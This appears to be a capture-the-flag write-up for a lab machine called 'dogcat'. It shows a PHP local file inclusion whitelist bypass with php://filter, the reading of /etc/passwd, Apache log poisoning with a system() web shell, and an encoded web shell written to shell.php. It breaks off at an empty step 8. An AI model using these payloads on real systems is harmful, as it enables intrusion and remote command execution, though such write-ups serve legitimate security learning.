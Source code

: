# dogcat

1. Recon reveals 22 and 80.
2. Going to the site (after running a dirb) reveals a simple site where you can view dog or cat images, via a query string `?view=`. Obvious LFI challenge
3. `php://filter/dog/convert.base64-encode/resource=dog` gets the base64 encoding of the dog and cat pages, which select a random image. Unfortunately, there is a whitelist: if dog or cat are not in the view url, it rejects it with 'only dogs or cats allowed'.
4. After a lot of messing about, I found this works (I don't know why. PHP ¯\_(ツ)_/¯): `http://10.10.177.45/?view=php://filter/dog/convert.base64-encode/resource=index`. It returns an error and the base64 of index :D

    This revealed that index is:

    ```php
    <?php
        function containsStr($str, $substr) {
            return strpos($str, $substr) !== false;
        }
        $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
        if(isset($_GET['view'])) {
            if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                echo 'Here you go!';
                include $_GET['view'] . $ext;
            } else {
                echo 'Sorry, only dogs or cats are allowed.';
            }
        }
    ?>
    ```

    Of note, I can specify the extension. So for example this works and gets me the passwd file: `?view=php://filter/dog/convert.base64-encode/resource=../../../../etc/passwd&ext=`

    Next step, how to exploit this? The passwd file revealed no users but www-data. A look at this blog (https://resources.infosecinstitute.com/local-file-inclusion-code-execution/) provided a possible option: utilising the apache log.

5. I used netcat to inject a php shell into the access logs: 

    ```
    root@kali:~# nc 10.10.148.44 80
    GET /<?php system($_GET['cmd']); ?>
    HTTP/1.1 400 Bad Request
    Date: Sun, 03 May 2020 02:20:10 GMT
    Server: Apache/2.4.38 (Debian)
    Content-Length: 302
    Connection: close
    Content-Type: text/html; charset=iso-8859-1

    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>400 Bad Request</title>
    </head><body>
    <h1>Bad Request</h1>
    <p>Your browser sent a request that this server could not understand.<br />
    </p>
    <hr>
    <address>Apache/2.4.38 (Debian) Server at 172.17.0.2 Port 80</address>
    </body></html>
    ```

6. I tested this by running `http://10.10.148.44/?view=php://filter/dog/resource=/var/log/apache2/access.log&ext=&cmd=cat%20/etc/passwd` which printed the contents of passwd to the screen (buried in the logs). Nice.

7. By using the script below as the cmd query string value, I created a `shell.php` in the web directory:

    `echo %50%47%5a%76%63%6d%30%67%62%57%56%30%61%47%39%6b%50%53%4a%48%52%56%51%69%49%47%35%68%62%57%55%39%49%6a%77%2f%63%47%68%77%49%47%56%6a%61%47%38%67%59%6d%46%7a%5a%57%35%68%62%57%55%6f%4a%46%39%54%52%56%4a%57%52%56%4a%62%4a%31%42%49%55%46%39%54%52%55%78%47%4a%31%30%70%4f%79%41%2f%50%69%49%2b%43%6a%78%70%62%6e%42%31%64%43%42%30%65%58%42%6c%50%53%4a%55%52%56%68%55%49%69%42%75%59%57%31%6c%50%53%4a%6a%62%57%51%69%49%47%6c%6b%50%53%4a%6a%62%57%51%69%49%48%4e%70%65%6d%55%39%49%6a%67%77%49%6a%34%4b%50%47%6c%75%63%48%56%30%49%48%52%35%63%47%55%39%49%6c%4e%56%51%6b%31%4a%56%43%49%67%64%6d%46%73%64%57%55%39%49%6b%56%34%5a%57%4e%31%64%47%55%69%50%67%6f%38%4c%32%5a%76%63%6d%30%2b%43%6a%78%77%63%6d%55%2b%43%6a%77%2f%63%47%68%77%43%69%41%67%49%43%42%70%5a%69%68%70%63%33%4e%6c%64%43%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4b%51%6f%67%49%43%41%67%65%77%6f%67%49%43%41%67%49%43%41%67%49%48%4e%35%63%33%52%6c%62%53%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4f%77%6f%67%49%43%41%67%66%51%6f%2f%50%67%6f%38%4c%33%42%79%5a%54%34%4b%50%48%4e%6a%63%6d%6c%77%64%44%35%6b%62%32%4e%31%62%57%56%75%64%43%35%6e%5a%58%52%46%62%47%56%74%5a%57%35%30%51%6e%6c%4a%5a%43%67%69%59%32%31%6b%49%69%6b%75%5a%6d%39%6a%64%58%4d%6f%4b%54%73%38%4c%33%4e%6a%63%6d%6c%77%64%44%34%3d | base64 -d > shell.php`

8. 